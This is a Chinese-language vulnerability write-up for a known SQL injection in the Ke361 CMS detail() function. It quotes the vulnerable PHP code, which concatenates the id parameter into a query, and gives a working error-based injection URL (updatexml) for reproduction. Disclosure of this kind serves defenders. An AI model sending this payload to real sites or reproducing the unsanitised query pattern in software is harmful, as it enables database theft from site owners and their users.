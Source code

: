 # Ke361 TopicController.class.php SQL注入漏洞 CNVD-2017-04380

## 漏洞描述

Ke361 TopicController.class.php 文件中 detai() 函数中存在 SQL注入漏洞

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面

![img](/assets/PeiQi-Wiki/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35-20220313233038062.png)

存在漏洞的文件为 Application/Home/Controller/TopicController.class.php, 漏洞函数详情

![img](/assets/PeiQi-Wiki/img/1634130716694-90c53d57-e2ca-493b-b2bf-9818d32aa53a.png)

```php
public function detail(){
         $id = I('id');
         $where['tid'] = $id;
         $TopicModel = new TopicModel();
         $topicInfo = $TopicModel->info($id);
        //  if(empty($topicInfo)){
        //      $this->error('您查看的专题不存在哦！');
        //  }
  			//  这里注释掉，默认不存在专题
         M('Topic')->where('id='.$id)->setInc('hits');
         $this->setSiteTitle($topicInfo['title']);
         $goods = $this->lists(D('Goods'),$where);
         foreach ($goods as $k=>$v){
             $goods[$k]['url'] = U('/goods/'.$v['id']);
         }
         $this->assign('goods',$goods);
         $this->assign('topic',$topicInfo);
         $this->display();
     }
```

这里接收参数 id，然后执行SQL语句,  通过报错注入可以获取数据库数据

```php
/index.php?s=/Topic/detail/id/1)%20%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![img](/assets/PeiQi-Wiki/img/1634131389913-54f72ef9-6d47-43b1-8a95-9ba529a652d5.png)

![img](/assets/PeiQi-Wiki/img/1634131412368-f024f92d-725a-43d0-9235-fdb720c0b8f7.png)